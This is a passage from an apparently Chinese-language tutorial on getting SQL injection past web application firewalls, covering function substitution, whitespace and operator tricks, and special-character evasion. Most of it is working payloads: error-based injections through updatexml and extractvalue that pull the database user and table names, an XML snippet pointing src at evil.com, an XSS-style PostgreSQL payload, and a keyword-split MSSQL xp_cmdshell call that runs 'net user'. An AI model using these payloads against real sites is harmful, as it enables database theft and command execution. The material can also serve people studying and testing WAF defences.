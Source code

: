 　　　strcmp(left('password',1), 0x71) = -1

上述这几个示例用于说明有时候当某个函数不能使用时，还可以找到其他的函数替代其实现，置于select、uinon、where等关键字被限制如何处理将在后面filter部分讨论

2.符号

and和or有可能不能使用，或者可以试下&&和||能不能用；还有=不能使用的情况，可以考虑尝试<、>，因为如果不小于又不大于，那边是等于了

在看一下用得多的空格，可以使用如下符号表示其作用：%20 %09 %0a %0b %0c %0d %a0 /**/

3.生僻函数

MySQL/PostgreSQL支持XML函数：Select UpdateXML(‘<script x=_></script> ’,’/script/@x/’,’src=//evil.com’);　　　　　　　　　　

?id=1 and 1=(updatexml(1,concat(0x3a,(select user())),1))

SELECT xmlelement(name img,xmlattributes(1as src,'a\l\x65rt(1)'as \117n\x65rror));　//postgresql

?id=1 and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));

MySQL、PostgreSQL、Oracle它们都有许多自己的函数，基于黑名单的filter要想涵盖这么多东西从实际上来说不太可能，而且代价太大，看来黑名单技术到一定程度便遇到了限制

 

## f) 特殊符号

这里我把非字母数字的字符都规在了特殊符号一类，特殊符号有特殊的含义和用法，涉及信息量比前面提到的几种都要多

先看下乌云drops上“waf的绕过技巧”一文使用的几个例子：

1.使用反引号`，例如select `version()`，可以用来过空格和正则，特殊情况下还可以将其做注释符用

2.神奇的"-+."，select+id-1+1.from users; “+”是用于字符串连接的，”-”和”.”在此也用于连接，可以逃过空格和关键字过滤

3.@符号，select@^1.from users; @用于变量定义如@*var_name*，一个@表示用户定义，@@表示系统变量

4.Mysql function() as xxx  也可不用as和空格　　 select-count(id)test from users;  //绕过空格限制

可见，使用这些字符的确是能做很多事，也证实了那句老话，只有想不到，没有做不到

本人搜罗了部分可能发挥大作用的字符(未包括'、*、/等在内，考虑到前面已经出现较多次了)：`、~、!、@、%、()、[]、.、-、+ 、|、%00

举例：

关键字拆分：‘se’+’lec’+’t’

　　　　　　%S%E%L%E%C%T 1

　　　　　　1.aspx?id=1;EXEC(‘ma’+'ster..x’+'p_cm’+'dsh’+'ell ”net user”’)

!和()：' or --+2=- -!!!'2

 　　　 id=1+(UnI)(oN)+(SeL)(EcT)　//另 Access中,”[]”用于表和列,”()”用于数值也可以做分隔

本节最后在给出一些和这些字符多少有点关系的操作符供参考：

\>>, <<, >=, <=, <>,<=>,XOR, DIV, SOUNDS LIKE, RLIKE, REGEXP, IS, NOT, BETWEEN

使用这些"特殊符号"实现绕过是一件很细微的事情，一方面各家数据库对有效符号的处理是不一样的，另一方面你得充分了解这些符号的特性和使用方法才能作为绕过手段

 

## g) HTTP参数控制
